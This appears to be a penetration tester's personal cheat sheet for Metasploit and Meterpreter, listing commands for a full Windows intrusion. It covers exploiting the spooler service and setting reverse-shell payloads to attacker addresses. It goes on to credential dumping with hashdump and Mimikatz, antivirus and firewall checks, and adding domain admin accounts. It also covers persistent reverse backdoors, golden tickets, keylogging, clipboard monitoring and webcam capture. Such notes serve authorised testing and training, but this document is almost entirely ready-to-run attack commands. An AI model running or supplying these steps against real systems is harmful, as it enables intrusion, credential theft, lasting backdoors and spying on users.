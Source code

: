 ## Metasploit:  

    msfconsole [-n disables database support]
        Log output:  spool /root/20220317-log.1
        help <cmd>
        sessions [-h / -l / -i # / -k #]
        search [type: exploit platform:windows name:Microsoft app:server]
        info [exploit/windows/smb/ms10_061_spoolss]
        use [exploit/windows/smb/ms10_061_spoolss  \\  #]
            show options
                show advanced
            show targets
            show payloads
            set payload [windows/meterpreter/reverse_tcp]
                RHOST (exploit): where the packet goes next
                LHOST (payload): the IP of the box that the target box will send the packet to
            set prependmigrateprocess spoolsv.exe
            set prependmigrate true
        exploit  
   
## Meterpreter:  

    General Commands:
          https://www.hackers-arise.com/ultimate-list-of-meterpreter-command
          sessions; sessions -i <#>; sessions -k <#>
          shell
          jobs; jobs -h; jobs -K
          getsystem
          hashdump
          help
          Run Script: run ... - scripts located in /usr/share/metasploit-framework/modules/post and /usr/share/metasploit-framework/scripts/meterpreter
              Useful Scripts: https://www.hackers-arise.com/ultimate-list-of-meterpreter-scripts
          Run Command:
              run multicommand -cl ["cmd.exe /c at","cmd.exe /c schtasks /query"  \\  "cmd.exe /c dir c:\\windows\\temp /od /tw"] [-f <local output file>]
              Background:  execute [-f fpipe.exe -a '-l 12345 -r 45678 192.168.11.26']
              shell  \\  execute -i -f [/system/bin/sh  \\  cmd.exe]
              WMIC:  run post/windows/gather/wmic_command COMMAND="startup list"
          background
          upload/download   (ex.  download [c:\\boot.ini]  ;  upload [evil_trojan.exe c:\\windows\\system32])
          reg
          search  (ex.  search [-f autoexec.bat] [-f sea*.bat c:\\xamp\\])
          edit <file> (uses vim)
          resource <local file>  (runs script of commands)
          kill

    Techniques:
          Migrate to Stable Process:  migrate <PID of spoolsv.exe>
          Switch Payload Architecture:  use post/windows/manage/archmigrate; set SESSION 1; set IGNORE_SYSTEM=true
          Duplicate Session:  use post/windows/manage/multi_meterpreter_inject; set ... IPLIST="IP of next hop back--prob jump internal IP, same as rev shell IP" LPORT=3333 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp  
              Or:  run duplicate -D -P 364 -p 443 -r 192.168.137.152  ;  -P <PID>, -r <Attacker IP>, -p <remote port>, -D disable the automatic exploit/multi/handler
          Open another shell:  use post/windows/manage/payload_inject; set ... LHOST=172.17.10.80 LPORT=4444 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp
          Upload file:  upload "/root/psloglist.exe" "c:/windows/temp/psloglist.exe"
          Pivot:  execute -f fpipe.exe -a '-l 12345 -r 12345 192.168.1.1'
          search -f *.txt -d c:\\documents\ and\ settings\\administrator\\desktop\\

    Situational Awareness:
          localtime  \\  run multicommand -cl "cmd.exe /c date /t","cmd.exe /c time /t","cmd.exe /c w32tm /tz"  \\  run post/windows/gather/wmic_command COMMAND="os get localdatetime"
          ipconfig  \\  run get_local_subnets
          netstat
          getuid
          getpid
          ps
          run post/windows/gather/enum_logged_on_users
          idletime
          sysinfo
          run multicommand -cl 'cmd.exe /c systeminfo' 
    Users/Privs:
          getprivs  \\  run post/windows/gather/win_privs
        getsid
        run multicommand -cl "cmd.exe /c net users","cmd.exe /c net accounts"
        run multicommand -cl 'cmd.exe /c net localgroup administrators' 
    Environment:
        run get_env  \\  run post/multi/gather/env
        run checkvm
        Check AV:
            ps
            run getcountermeasure
            run post/windows/gather/enum_applications
            run post/windows/gather/wmic_command COMMAND='/node:localhost /namespace:\\root\securitycenter2 path antivirusproduct get * /format:list'
                Confirm:  run multicommand -cl 'cmd.exe /c sc queryex state= all|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'  \\  run multicommand -cl 'cmd.exe /c wmic process get commandline /format:list|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'					
                Status:  run multicommand -cl 'cmd.exe /c sc query [WinDefend\SAVService\...]'
                #run killav  \\  #run virusscan_bypass
        Check Firewall:
            run multicommand -cl "cmd.exe /c netsh advfirewall show currentprofile","cmd.exe /c netsh advfirewall show allprofiles"  \\  run multicommand -cl "cmd.exe /c netsh firewall show config"
            run multicommand -cl 'cmd.exe /c netsh advfirewall monitor show firewall'
            run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule name=all > c:\windows\temp\rules.txt' ; download c:/windows/temp/rules.txt /tmp ; rm c:/windows/temp/rules.txt ; dos2unix -n -f /tmp/rules.txt /tmp/rules2
                *Note the profiles
                *Check Enabled, Direction, Profile, Protocol, Action
                **Check Default Policy** -> port might be allowed by default
        Check Auditing:  run multicommand -cl 'cmd.exe /c auditpol /get /category:*'
        Hardware:  run post/windows/gather/wmic_command COMMAND="computersystem get TotalPhysicalMemory"; run post/windows/gather/wmic_command COMMAND="computersystem get FreePhysicalMemory"  \\  run multicommand -cl 'cmd.exe /c systeminfo'        
    Networking:
        run multicommand -cl 'cmd.exe /c nbtstat -n'
        route
        run multicommand -cl "cmd.exe /c netsh interface ip show config"  (Shows DNS server, etc.)
        getproxy
        Domain Enum:  run multicommand -cl "cmd.exe /c nbtstat -n"; load extapi; adsi_computer_enum <domain>; adsi_user_enum <domain>; adsi_nested_group_user_enum <domain> "CN=Domain Admins,CN=Users,DC=boot,DC=lab"; might need to: steal_token <PID of user process> ; then drop_token
        Resolve Hostname:  resolve <hostname>
        Scan:
            use post/windows/gather/arp_scanner
            use auxiliary/scanner/portscan/tcp
    Enumeration:
        ps
        run post/windows/gather/enum_applications
        reg enumkey -k 'HKLM\software'
        reg enumkey -k 'HKLM\software\microsoft'
        run multicommand -cl "cmd.exe /c at","cmd.exe /c schtasks /query"
        run post/windows/gather/enum_services  \\  run multicommand -cl "cmd.exe /c sc queryex state= all"
        run multicommand -cl "cmd.exe /c net use","cmd.exe /c net share"  \\  run post/windows/gather/enum_shares
        run post/windows/gather/forensics/enum_drives  \\  show_mount
        run post/windows/gather/wmic_command COMMAND="startup list"
        reg queryval -k 'HKLM\software\microsoft\powershell\1\powershellengine' -v powershellversion
        search -f *.doc* ; search -f *.xls* ; search -f *.ppt* ; search -f *.pdf*
        run multicommand -cl 'cmd.exe /c where /R C:\users *.exe | findstr /i "Temp"'
    Dump Info:
        run remotewinenum -u administrator -p password -t 10.1.1.1
        run scraper
        run winenum
    Pivoting/Redirection:
        See Post-Exploit->Port Redirection & Tunneling
        portfwd
        autoroute
        hostsedit
    PrivEsc:
        getsystem
        use priv
        use post/multi/recon/local_exploit_suggester  ;  use exploit/windows/local/...
    Creds:
        hashdump  \\  Better:  run hashdump \ run post/windows/gather/smart_hashdump
            john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
            use auxiliary/analyze/jtr_crack_fast
        GPO creds:  use post/windows/gather/credentials/gpp, set ... DOMAINS=BOOT SESSION=#
        run credcollect
        steal_token <PID> / drop_token
        Mimikatz:
            Option 1: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
            Option 2: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"
    Persistence:
        Add User:  Local: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD","cmd.exe /c net localgroup 'Administrators' metasploit /ADD" ; Domain: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD /DOMAIN","cmd.exe /c net group "Domain Admins" metasploit /ADD /DOMAIN"
            Make Domain Admin:  run multicommand -cl 'cmd.exe /c net group "Domain admins" mossa /add /domain'; run multicommand -cl 'cmd.exe /c net group "Domain admins" /domain'
        RDP:
            run post/windows/manage/enable_rdp username=admin,password=password
                Or: run getgui -e  //  or  run getgui -u loneferret -p password  ;  then cleanup:  ex. run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
        Telnet:  run gettelnet [-e  //  -u user -p pass]
        Meterpreter Bind Backdoor:  run metsvc; use exploit/multi/handler; set PAYLOAD windows/metsvc_bind_tcp; set LPORT 31337; set RHOST 192.168.1.104; run
            Reverse Backdoor (reboot persistent):  run persistence -U -i 5 -p 443 -r 192.168.1.71; use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.71; set LPORT 443; exploit
        Golden Ticket:  load kiwi;  golden_ticket_create -u mossa -d BOOT.LAB -k (krbtgt hash last half only) -s (Domain User SID w/o last 4 digits--from enum_users) -t /tmp/ticket
            kerberos_ticket_list; kerberos_ticket_use /tmp/ticket
    Hardware:
        Clipboard:  load extapi; clipboard_get_data; clipboard_monitor_start; clipboard_monitor_dump
        Keylogger:  keyscan_start; keyscan_stop; keyscan_dump  (after migrating to explorer)
        webcam_list \ webcam_snap
        screengrab
        run vnc  -  opens quick viewing session

